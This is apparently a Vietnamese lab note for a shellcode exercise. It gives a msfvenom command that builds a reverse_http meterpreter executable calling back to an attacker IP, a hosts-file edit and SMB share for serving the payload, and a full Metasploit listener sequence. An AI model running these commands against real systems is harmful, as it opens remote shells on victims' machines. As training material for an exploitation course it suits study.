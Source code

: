 # Bài 2:
Lưu ý chụp lại các đoạn có IP của máy Debug sau khi đã khai thác thành công để làm minh chứng.  
[Các template các hàm](https://github.com/Cl0wnK1n9/ShellcodeTemplate-windowx86/tree/main/Functions)  

Để load DLL thì đổi sang ASCII sang hex (Lưu ý trong code viết bytes theo chiều ngược lại) \
Để load API thì tính hash: \
[Code tính hash tên các API](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/Custom%20Shellcode/getAPIhash.py)

Để sinh payload bằng metasploit trên máy tấn công tại thư mục /home/kali/:
```
msfvenom -p windows/meterpreter/reverse_http HOST=192.168.45.178 LPORT=3333 -f exe -o met.exe
```

Thay đổi file hosts trên máy Windows để tạo kết nối UNC sang máy tấn công.  
Dùng notepad để thêm 1 dòng trong file hosts.
```
# localhost name resolution is handled within DNS itself.
#  127.0.0.1       localhost
#  ::1             localhost
    <Địa chỉ IP>   kali
```

Để tạo SMB server trên máy tấn công ([Nếu không có lệnh smbserver.py]())
```
sudo smbserver.py met /home/kali/ -smb2support
```

Khi đã chạy smb server thành công thì có thể kiểm tra bằng lệnh sau trên máy Windows:
```
pushd <Đường dẫn UNC>
# VD: pushd \\ubuntu\folder
# Khi đó trong terminal sẽ hiện lên folder của bên máy đang chạy SMB 

# Thoát đường dẫn
popd <Đường dẫn UNC>
```

Thực thi shellcode (file python) trên máy Windows và tạo listener trên máy tấn công với các lệnh sau:
```
# Exploit after met.exe execution
$ sudo msfdb init
$ msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 3333
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
```

Tham khảo cách viết: [Shellcode trong sách](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/Custom%20Shellcode/shellcode_NO_CHANGE_PLEASE.py)  

Trong quá trình debug, có thể dùng lệnh `dds <địa chỉ>` để kiểm tra các hàm đã được lưu đúng chưa.  
Nếu các hàm đã được lưu đúng thì sẽ hiện tên hàm ở trong output.
